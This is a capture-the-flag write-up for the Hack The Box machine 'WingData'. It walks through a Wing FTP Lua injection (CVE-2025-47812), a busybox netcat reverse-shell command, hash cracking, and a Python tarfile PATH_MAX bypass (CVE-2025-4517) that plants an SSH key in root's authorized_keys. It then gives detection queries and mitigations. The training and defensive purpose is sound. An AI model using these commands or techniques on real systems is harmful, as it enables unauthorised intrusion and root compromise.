









# WingData

```
Difficulty: Medium  
OS: Linux  
Services: SSH (22), HTTP (80)

```

> **Target:** `wingdata.htb` (add to `/etc/hosts` with the target IP and `ftp.wingdata.htb`)


## Summary of Attack Chain

| Step | User / Access         | Technique Used                               | Result                                                                                   |
| :--: | :-------------------- | :------------------------------------------- | :--------------------------------------------------------------------------------------- |
|   1  | N/A (Unauthenticated) | **Network scanning & subdomain discovery**   | Identified `wingdata.htb` and `ftp.wingdata.htb`; discovered **Wing FTP Server v7.4.3**. |
|   2  | N/A (Web access)      | **CVE-2025-47812 exploitation**              | Abused NULL byte injection and Lua code execution in the Wing FTP admin panel.           |
|   3  | wingftp (Service)     | **Reverse shell execution (Lua)**            | Injected Lua payload to spawn a reverse shell; gained initial foothold as `wingftp`.     |
|   4  | wingftp               | **Credential hunting**                       | Located `wacky.xml` in FTP configuration; extracted salted SHA-256 password hash.        |
|   5  | N/A (Offline)         | **Password cracking (Hashcat)**              | Cracked the hash (`!#7BlXXXXXXXXXXXXXX`) using Hashcat mode 1410.                        |
|   6  | wacky (SSH)           | **Lateral movement via SSH**                 | Logged in as `wacky` with cracked credentials; retrieved **user.txt**.                   |
|   7  | wacky                 | **Privilege enumeration (sudo)**             | Discovered sudo rights for `restore_backup_clients.py` with wildcard arguments.          |
|   8  | wacky                 | **Code analysis (Python tarfile)**           | Identified unsafe `tarfile.extractall(filter='data')` usage in Python 3.12.3.            |
|   9  | wacky                 | **CVE-2025-4517 exploitation**               | Crafted malicious TAR with path depth >4096 bytes to bypass `PATH_MAX` checks.           |
|  10  | Root                  | **Arbitrary file overwrite**                 | Overwrote `/root/.ssh/authorized_keys` with attacker’s public key via TAR extraction.    |
|  11  | Root                  | **Privilege escalation (SSH key injection)** | SSH access obtained as root using injected key.                                          |
|  12  | Root                  | **Flag capture**                             | Retrieved **root.txt** from `/root/root.txt`.                                            |





# Offensive Operation

## Reconnaissance & Enumeration

### 1.1 Port Scanning

We start by knocking on doors to see what services are listening.

```bash
nmap -sC -sV -oA wingdata 10.129.x.x

```

[Nmap Results](https://raw.githubusercontent.com/0x0z0n/Research/refs/heads/main/posts/WingData/nmap_results.nmap "Results")


*  `nmap` sends packets to common ports. `-sC` runs default scripts (checking for common vulnerabilities), and `-sV` attempts to determine the version of the service.
* **Results:**
* **22 (SSH):** Standard remote access.
* **80 (HTTP):** A web server.


### 1.2 Web Enumeration & Virtual Hosts

Visiting `http://10.129.x.x` shows a generic company page. The text mentions a "Client Portal."

Web servers (like Apache/Nginx) often host multiple websites on a single IP address. They distinguish between them using the `Host` HTTP header (e.g., `Host: wingdata.htb` vs `Host: ftp.wingdata.htb`). Since public DNS servers don't know about these internal HTB subdomains, we must find them ourselves.

**Action: Subdomain Fuzzing**
We use `ffuf` to brute-force the `Host` header.

```bash
ffuf -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt:FUZZ -u http://10.129.x.x -H "Host: FUZZ.wingdata.htb" -fs <SIZE_OF_DEFAULT_PAGE>

```




[Subdomain.txt](https://raw.githubusercontent.com/0x0z0n/Research/refs/heads/main/posts/WingData/subdomain.txt "Results")


* **Result:** We find `ftp`.
* **Setup:** Add `10.129.x.x wingdata.htb ftp.wingdata.htb` to your `/etc/hosts` file.




### 1.3 Service Identification

Navigating to `http://ftp.wingdata.htb` reveals the login page for **Wing FTP Server**. Checking the footer or source code reveals the version: **v7.4.3**.


## Initial Access

### 2.1 Vulnerability Analysis (CVE-2025-47812)

Researching "Wing FTP Server 7.4.3" reveals a Critical vulnerability.

* **The Flaw:** The server has an administration interface that allows admins to execute Lua scripts (Lua is the scripting language Wing FTP is built on).
* **The Bypass:** The authentication or file extension check has a flaw. By appending a **NULL Byte** (`%00`) to a URL or parameter, we can trick the server.
*  In C/C++, strings end with a NULL byte `\0`. If the validator checks `script.lua%00.jpg`, it might see `.jpg` and say "Safe!". But the execution engine reads until the NULL byte and executes `script.lua`.


### 2.2 Exploitation

We use a python script to inject Lua code that calls a system shell.

1. **Start Listener:** `nc -lvnp 4444`
2. **Run Exploit:**
```bash
python3 CVE-2025-47812.py -u http://ftp.wingdata.htb -c 'busybox nc <YOUR_VPN_IP> 4444 -e sh'

```

[exploit.py](https://raw.githubusercontent.com/0x0z0n/Research/refs/heads/main/posts/WingData/exploit.py "Results")


* *Note:* We use `busybox nc` because standard `nc` on minimal Linux distros often lacks the `-e` (execute) flag.


**Result:** You catch a reverse shell as the user `wingftp`.



## Lateral Movement

We are currently a service account (`wingftp`). We need to become a real user (`wacky`).

### 3.1 Enumeration

Applications often store credentials in configuration files. Since we are in the FTP server's folder, we look for user config files.

```bash
find /opt/wftpserver -name "*.xml"
# Found: /opt/wftpserver/Data/1/users/wacky.xml

```



[wacky.xml](https://raw.githubusercontent.com/0x0z0n/Research/refs/heads/main/posts/WingData/wacky.xml "Results")

### 3.2 Cracking the Hash

Inside `wacky.xml`, we find a SHA-256 hash.

* **Hash:** `32940def...`
* **Salt:** `WingFTP` (This is hardcoded logic for this software).

 Hashing is one-way. To find the password, we must take a list of words (RockYou), add the salt "WingFTP" to them, hash them, and see if they match the stolen hash.

```bash
# Prepare the hash for Hashcat (Mode 1410 = sha256($pass.$salt))
echo "HASH:WingFTP" > hash.txt
hashcat -m 1410 hash.txt /usr/share/wordlists/rockyou.txt

```




**Cracked Password:** `!#7BlXXXXXXXXXXXXXX`

### 3.3 SSH Login

We use these credentials to SSH into the box as `wacky`.

```bash
ssh wacky@wingdata.htb

```

[Hash.txt](https://raw.githubusercontent.com/0x0z0n/Research/refs/heads/main/posts/WingData/hash.txt "Results")



## Privilege Escalation

This is the highlight of the machine.

### 4.1 Sudo Analysis

```bash
sudo -l
# (root) NOPASSWD: /usr/local/bin/python3 /opt/backup_clients/restore_backup_clients.py *

```




We can run a python script as root without a password. The script takes a TAR file and extracts it.

### 4.2 Code Review & The "Filter" Trap

The script uses this command to extract files:

```python
tar.extractall(path=staging_dir, filter="data")

```

* **The Trap:** In Python 3.12, `filter="data"` was introduced as a security feature. It prevents "ZipSlip" attacks (where a zip file contains `../../evil.txt` to overwrite system files). It checks if the destination path is safe.

**So how do we bypass a safety check explicitly designed to stop us?**

### 4.3 CVE-2025-4517: The `PATH_MAX` Overflow

This specific version of Python (3.12.3) has a bug in the `filter="data"` logic.


1. **The Limit:** Linux has a maximum path length (`PATH_MAX`), usually 4096 bytes.
2. **The Check:** Python's security filter tries to resolve the *absolute path* of the file inside the TAR to see where it will land. It uses `os.path.realpath()`.
3. **The Bug:** If we create a path inside the TAR that is *longer* than 4096 bytes (using deep directories and symlinks), `os.path.realpath()` fails silently or returns a truncated/confused result.
4. **The Bypass:** Because the check gets confused, it fails to realize that our file actually points to `../../../../root/.ssh/authorized_keys`. It assumes it's safe and allows the extraction.

### 4.4 The Exploit Construction

We write a python script (`payload.py`) to create this "impossible" TAR file.

[payload.py](https://raw.githubusercontent.com/0x0z0n/Research/refs/heads/main/posts/WingData/payload.py "Results")


1. **Deep Nesting:** We create a loop to make directories `d/d/d/d...` until we have a path ~4000 chars long.
2. **The Overflow Link:** We add a symlink at the bottom of this pit that points back up to the top (`../../..`). This creates a "loop" that confuses the path resolver.
3. **The Payload:** We create a file named `escape` that links to `/root/.ssh/authorized_keys`.
4. **The Injection:** We write our SSH Public Key into this `escape` file.

### 4.5 Execution

1. **Generate Keys:** On your attacker machine: `ssh-keygen -f root_key`.
2. **Create TAR:** Update the python script with your new Public Key and run it.
3. **Transfer:** Upload `backup_1001.tar` to the victim.

[backup_1001.tar](https://raw.githubusercontent.com/0x0z0n/Research/refs/heads/main/posts/WingData/backup_1001.tar.zip "Results")


4. **Trigger:**

```bash
sudo /usr/local/bin/python3 /opt/backup_clients/restore_backup_clients.py -b backup_1001.tar -r restore_pwn

```


* *Note:* We use `restore_pwn` because the script forces the directory name to start with `restore_`.


**What happened?**

The script ran as root. It tried to validate our TAR. The path length overflowed the validator. Python said "Looks good." The script extracted our SSH key directly into `/root/.ssh/authorized_keys`.


## Root

Now that our key is in the authorized list, we just walk in.

```bash
# On attacker machine
chmod 600 root_key
ssh -i root_key root@wingdata.htb

```

**Flag:** 

```bash
cat /root/root.txt
```



# Defensive Operations

[Logs.tar.gz](https://raw.githubusercontent.com/0x0z0n/Research/refs/heads/main/posts/WingData/Logs.tar.gz "Results")


## Startegic Overview

* **1.1 Definition:** A multi-stage system compromise leveraging a web application input validation failure (NULL Byte Injection) for initial access, followed by the exploitation of a logic flaw within the Python Standard Library (`tarfile` module) to bypass path traversal protections.
* **1.2 Impact:** Full Root Compromise. The attack chain demonstrates how a seemingly "safe" backup restoration procedure can be weaponized to overwrite critical system configuration files (e.g., `authorized_keys`), bypassing modern runtime security filters.
* **1.3 The Scenario:** An external attacker identifies an exposed Wing FTP Server administrative interface. Leveraging **CVE-2025-47812**, they execute arbitrary Lua code to obtain a reverse shell. Persistence is established via credential harvesting from unencrypted application configuration files. Privilege escalation is achieved by abusing a `sudo`-permitted backup script that relies on a vulnerable version of Python (3.12.3), specifically exploiting **CVE-2025-4517** to bypass the `filter='data'` security mechanism.


## System Archotecture & Theory

* **2.1 Protocol Environment:**
* **Frontend:** Apache HTTPD (Reverse Proxy/Web Server).
* **Application:** Wing FTP Server v7.4.3 (Lua-based administration).
* **Runtime:** Python 3.12.3 (Vulnerable Standard Library).
* **Access:** SSH (OpenSSH 9.2p1).


* **2.2 Attack Logic Flow:**

> [Wing FTP Admin Panel] -> [NULL Byte Injection/Lua RCE] -> [Config File Credential Dump] -> [SSH Access as 'wacky'] -> [Sudo Script Execution] -> [Python tarfile PATH_MAX Overflow] -> [Root File Overwrite]

* **2.3 Theoretical Analogy:** The privilege escalation is akin to smuggling contraband through a security scanner by placing it inside a container so theoretically large that the scanner's measuring tape runs out of length (`PATH_MAX`). Instead of rejecting the container, the scanner (Python's `realpath` check) fails silently and allows the contraband through, assuming it was safe because it couldn't measure it.


## Attack Vector

### Core Mechansim

| Attribute                  | Technical Details                                                                                                                        |
| :------------------------- | :--------------------------------------------------------------------------------------------------------------------------------------- |
| **Primary Identifiers**    | `CVE-2025-4517`, Python `tarfile` module, `filter='data'`, `os.path.realpath`                                                            |
| **Critical Vulnerability** | Python versions < 3.12.4 fail closed-path validation when `realpath()` exceeds `PATH_MAX` (4096 bytes), allowing filters to fail open.   |
| **Offensive Action**       | Built a malicious TAR with directory depth >4096 bytes and a symlink redirect, bypassing extraction filters to write into `/root/.ssh/`. |


### Prerequisites

* **Access Level:** User `wacky` with `sudo` privileges on `/usr/local/bin/python3 /opt/backup_clients/restore_backup_clients.py`.
* **Connectivity:** SSH access to the target; ability to transfer the malicious TAR payload.
* **Target State:** The target script must use `tarfile.extractall(..., filter='data')` and run on a vulnerable Python version (3.12.0 - 3.12.3).

[Journal.txt](https://raw.githubusercontent.com/0x0z0n/Research/refs/heads/main/posts/WingData/Logs/var/log/journal/readable_journal.txt "Results")

## Threat Hunting & Anamoly Analysis

* **Hunt Hypothesis:** Adversaries exploiting `tarfile` vulnerabilities will generate file write events to sensitive system directories (`/root/`, `/etc/`) originating from Python processes rather than standard system updaters or editors.
* **Behavioral Outliers:**
* **Process:** A python script running as `root` (via `sudo`) spawning child processes or writing files to `.ssh` directories.
* **File System:** Creation of temporary directories with excessive path lengths (e.g., hundreds of characters) in `/tmp` or staging areas.
* **Logs:** `sudo` logs showing the execution of backup scripts with non-standard file arguments (e.g., `restore_pwn`).


* **Toxic Combinations:**
* `Sudo NOPASSWD` on scripts accepting file arguments +
* Scripts using `tarfile` or `zipfile` extraction +
* Unpatched Runtime Environments (Python < 3.12.4).


[Commands.txt](https://raw.githubusercontent.com/0x0z0n/Research/refs/heads/main/posts/WingData/Logs/var/log/journal/commands.txt "Results")


## Detection Engineering

* **Telemetry Gap Analysis:**
* **Sysmon Event ID 11 (FileCreate):** Critical for detecting writes to sensitive paths.
* **Sysmon Event ID 1 (ProcessCreate):** Required to correlate the Python process with the file write.
* **Auditd:** Required on Linux to track `execve` and `open` syscalls by the `python3` binary.


* **Detection-as-Code (KQL - Sentinel/Defender):**

```kql
// Detects Python scripts writing to authorized_keys or sudoers
DeviceFileEvents
| where ActionType == "FileCreated" or ActionType == "FileModified"
| where FolderPath has_any ("/root/.ssh/", "/etc/sudoers", "/etc/shadow")
| where InitiatingProcessFileName in ("python", "python3")
| where InitiatingProcessCommandLine contains "restore_backup_clients.py" // Context specific
| project Timestamp, DeviceName, InitiatingProcessCommandLine, FolderPath, FileName, InitiatingProcessAccountName

```

* **Resilience Test:**
* *Bypass:* The adversary could target `/etc/cron.d/` or `.bashrc` instead of `authorized_keys`.
* *Countermeasure:* Broaden the `FolderPath` scope to include all persistence locations and monitor for *any* file creation by the backup script outside of its designated restore directory.


## Toolkit & Implementation

* **Automation:**
* **Initial Access:** Custom Python script for CVE-2025-47812 (Lua Injection).
* **Privilege Escalation:** Custom Python script generating the `PATH_MAX` overflow TAR file.
* **Cracking:** Hashcat (Mode 1410: `sha256($pass.$salt)`).


* **OPSEC Analysis:**
* **Noise:** The initial web exploit is noisy in HTTP logs (NULL bytes, unusual User-Agents).
* **Stealth:** The privilege escalation is highly stealthy. It uses a legitimate system administration script and standard library functions, avoiding binary drops or compilation on the target. The malicious TAR file can be deleted immediately after use.


* **Post-Exploitation:**
* **Persistence:** SSH Key injection (`authorized_keys`).
* **Lateral Movement:** The compromised root account allows for dumping shadow hashes or pivoting to other network segments if applicable.


## Defensive Mitigation

* **Technical Hardening:**
* **Patch Management:** Update Python to version 3.12.4 or higher immediately to resolve CVE-2025-4517.
* **Input Validation:** Sanitize filenames in the web application to reject NULL bytes and enforce strict extension whitelisting.
* **Code Security:** In Python scripts, do not rely solely on `filter='data'`. Implement manual member validation: iterate through `tar.getmembers()` and verify `os.path.abspath(member_path)` starts with the intended destination directory *before* extraction.
* **Sudo Restrictions:** Remove wildcard (`*`) permissions from the sudoers file. Force specific, validated arguments for administrative scripts.


* **Personnel Focus:**
* **Developer Training:** Educate developers on "ZipSlip" and "TarSlip" vulnerabilities and safe archive handling.
* **Credential Hygiene:** Enforce unique passwords for service accounts to prevent lateral movement from compromised applications.


## Quick Action Playbook

| Step | Objective          | Technical Command / Logic                                                                  |
| :--: | :----------------- | :----------------------------------------------------------------------------------------- |
|  01  | **Enumerate**      | `nmap -sCV -p- [IP]`; `ffuf -w subdomains.txt -u http://[IP] -H "Host: FUZZ.wingdata.htb"` |
|  02  | **Exploit (Web)**  | `python3 cve-2025-47812.py -u [URL] -c 'busybox nc [IP] [PORT] -e sh'`                     |
|  03  | **Crack**          | `hashcat -m 1410 hash.txt rockyou.txt`                                                     |
|  04  | **Exploit (Priv)** | Generate TAR with deep paths >4096 bytes + symlink to `/root/.ssh/authorized_keys`         |
|  05  | **Execute**        | `sudo /usr/local/bin/python3 ... -b malicious.tar -r restore_exploit`                      |
|  06  | **Persist**        | `ssh -i root_key root@wingdata.htb`                                                        |
